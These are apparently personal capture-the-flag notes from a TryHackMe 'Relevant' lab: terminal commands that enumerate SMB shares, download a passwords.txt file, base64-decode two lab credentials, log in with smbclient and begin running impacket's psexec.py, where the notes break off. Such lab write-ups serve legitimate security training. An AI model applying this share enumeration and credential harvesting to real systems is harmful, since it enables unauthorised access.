         Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk      
SMB1 disabled -- no workgroup available

        #looks like there might be some files on the nt4wrksv? --> lets check

(kali㉿kali)-[~/THM/practice/relevant]
└─$ smbget -R smb://10.10.213.105/nt4wrksv 
Password for [kali] connecting to //nt4wrksv/10.10.213.105: 
Using workgroup WORKGROUP, user kali
smb://10.10.213.105/nt4wrksv/passwords.txt                                                                  
Downloaded 98b in 3 seconds
        # a passwords.txt file, lets have a look:
(kali㉿kali)-[~/THM/practice/relevant]
└─$ cat passwords.txt                                                                                   1 ⨯
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk

        # base64 encoded I believe so lets decode it:
(kali㉿kali)-[~/THM/practice/relevant]
└─$ echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d                            
Bob - !P@$$W0rD!123
(kali㉿kali)-[~/THM/practice/relevant]
└─$ echo "QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk" | base64 -d
Bill - Juw4nnaM4n420696969!$$$

        # looks like there are 2 users we could potentially log in as, lets try?
(kali㉿kali)-[~/THM/practice/relevant]
└─$ smbclient -U bob //10.10.213.105/nt4wrksv  
Enter WORKGROUP\bob's password: 
Try "help" to get a list of possible commands.
smb: \>
        # logging in as bob worked, maybe try as bill too? --> the only file in bob's directory was the same passwords.txt
                # it merely resulted in the same share, as they seem to both have the same access


# apparently there is a tool to check whether users are legit or not --> psexec.py, so lets try it:
(kali㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─$ python3 psexec.py                                                                                   1 ⨯
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
